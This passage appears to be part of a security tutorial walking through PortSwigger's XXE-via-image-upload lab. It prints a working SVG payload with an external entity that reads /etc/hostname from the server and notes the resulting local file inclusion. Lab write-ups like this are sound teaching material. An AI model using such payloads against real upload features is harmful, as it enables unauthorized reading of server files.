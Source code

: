 > _The example below is based on PortSwigger's_ [_Exploiting XXE via image file upload_](https://portswigger.net/web-security/xxe/lab-xxe-via-file-upload) _lab._

The application has an upload functionality within the comments section (Figure 9).

<figure><img src="../../.gitbook/assets/web_xxe_3.png" alt=""><figcaption><p>Figure 9: Enumerating a potential XXE injection vulnerability.</p></figcaption></figure>

We can try injecting a out-of-the-box payload, such as [this](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md#xxe-inside-svg), and see what comes back (Figure 10).

{% code overflow="wrap" %}
```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```
{% endcode %}

<figure><img src="../../.gitbook/assets/web_xxe_4.png" alt=""><figcaption><p>Figure 10: Achieving LFI via XXE injection.</p></figcaption></figure>


[^1]: Point Of View
